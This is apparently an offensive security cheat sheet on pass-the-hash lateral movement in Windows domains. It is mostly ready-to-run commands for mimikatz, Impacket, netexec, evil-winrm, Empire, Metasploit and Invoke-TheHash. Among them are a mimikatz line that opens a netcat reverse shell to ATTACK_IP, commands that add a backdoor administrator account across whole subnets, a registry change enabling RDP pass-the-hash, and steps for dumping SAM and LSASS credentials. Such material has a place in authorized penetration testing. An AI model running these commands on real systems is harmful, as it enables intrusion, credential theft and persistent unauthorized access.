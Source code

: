 # Pass-the-Hash Lateral Movement 

## Tools: impacket , psexec , crackmapexec/netexec , evil-winrm , xfreerdp/remmina , smbclient , mimikatz

# Interactive shell

#### 1) mimikatz

    mimikatz "privilege::debug sekurlsa::pth /user USER /domain:DOMAIN /ntlm:HASH /run:"C\tools\nc64.exe -e cmd.exe ATTACK_IP PORT"

#### 2) psexec (Impacket and Windows)

    psexec.exe -AcceptEULA \\IP

    impacket-psexec -hashes":HASH" USER@IP

#### 3) Empire C2

    usemodule lateral_movement/invoke_smbexec

##### Parameters

    (Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set ComputerName '10.10.10.100'
    (Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Domain security.local
    (Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Listener http
    (Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Hash 58a478135a93ac3bf058a5ea0e8fdb71
    (Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > set Username moe
    (Empire: usemodule/powershell/lateral_movement/invoke_smbexec) > execute

#### 4) Metasploit

    use exploit/windows/smb/psexec

##### Set hash as password

    set smbpass "aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71"

#### 5) Invoke-TheHash

# SMB Options

##### Check SMB signing

    Invoke-TheHash -Type SMBExec -Target '[IP]'
    Invoke-TheHash -Type SMBExec -Target [CIDR]

##### Check for command execution 

    Invoke-TheHash -Type SMBExec -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]'
    Invoke-TheHash -Type SMBExec -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

##### Pass hash to target and execute specified command 

    Invoke-TheHash -Type SMBExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]' 
    Invoke-TheHash -Type SMBExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

 ##### Enumerate SMB Shares / Users / Net Sessions 

    Invoke-SMBEnum -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]'
    Invoke-SMBEnum -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

# WMI Options
##### Check for command execution (WMI)

    Invoke-TheHash -Type WMIExec -Username '[Username]' -Hash '[NTLM-Hash]' -Target '[IP]'
    Invoke-TheHash -Type WMIExec -Username '[Username]' -Hash '[NTLM-Hash]' -Target [CIDR]

##### Pass hash to target and execute specified command (WMI)
    
    Invoke-TheHash -Type WMIExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target '[IP]'
    Invoke-TheHash -Type WMIExec -Command "net user /add Pentest Password123 && netlocal group Administrators /add Pentest" -Username [Username]@[Domain] -Hash '[NTLM-Hash]' -Target [CIDR]

#### 6) Mimikatz

    Invoke-Mimikatz -Command '"sekurlsa::pth /user:<User> /domain:<Domain> /ntlm:<NTLM> /run:powershell.exe"'
    Invoke-Mimikatz -Command '"sekurlsa::pth /user:Moe /domain:Security.local /ntlm:58a478135a93ac3bf058a5ea0e8fdb71 /run:powershell.exe"'

## TIP: Both of these techniques give NT Authority/System shell (System/Admin access)

# Pseudo-shell (File write and read) (System/Admin access)

#### 1) crackmapexec/netexec

    netexec smb IP_RANGE -u USER -d DOMAIN -H ':HASH'

    netexec smb IP_RANGE -u USER -H ':HASH' --local-auth

#### 2) Impacket Library

    atexec.py -hashes ":HASH" USER@IP "COMMAND"

    smbexec.py -hashes ":HASH" USER@IP

## These techniques give NT Authority/System shell

    wmiexec.py -hashes ":HASH" USER@IP

    dcomexec.py -hashes ":HASH" USER@IP

# WinRM 

#### 1) evil-winrm

    evil-winrm -i IP -u USER -H HASH

# SMB

#### 1) smbclient

    smbclient.py -hashes ":HASH" USER@IP (Authenticate, then search files)
    smbclient //<IP>/<Share> -U <User> --pw-nt-hash <Hash> -W <Domain>
    smbclient '//10.0.0.100/IT' -U 'moe' --pw-nt-hash '58a478135a93ac3bf058a5ea0e8fdb71' -W 'security.local'

# RDP

#### 1) reg.py and xfreerdp/remmina

    reg.py DOMAIN/USER@IP -hashes ':HASH' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisabledRestrictedAdmin' -vt 'REG_DWORD' -vd '0'

    xfreerdp /u:USER /d:DOMAIN /pth:HASH /v:IP

# MSSQL

#### 1) crackmapexec/netexec

    netexec mssql IP_RANGE -H ':HASH'

#### 2) mssqlclient.py

    mssqlclient.py -windows-auth -hashes ":HASH" DOMAIN/USER@IP

# EXTRACT NTLM HASHES FROM LOCAL SAM

### privilege::debug

### token::elevate

### lsadump::sam -> LOCAL SAM DUMP

### sekurlsa::msv -> LSASS MEMORY DUMP

### token::revert

### sekurlsa::pth /user:USER.USER /domain:DOMAIN /ntlm:NTLM_HASH /run:"C\tools\nc64.exe -e cmd.exe ATTACK_IP PORT" 

### nc -lvp PORT

# PtH (Linux)

### xfreerdp /v:VICTIM_IP /u:DOMAIN\USER /pth NTLM_HASH

### psexec.py -hashes NTLM_HASH DOMAIN\USER@VICTIM_IP

### evil-winrm -i VICTIM_IP -u USER -H NTLM_HASH

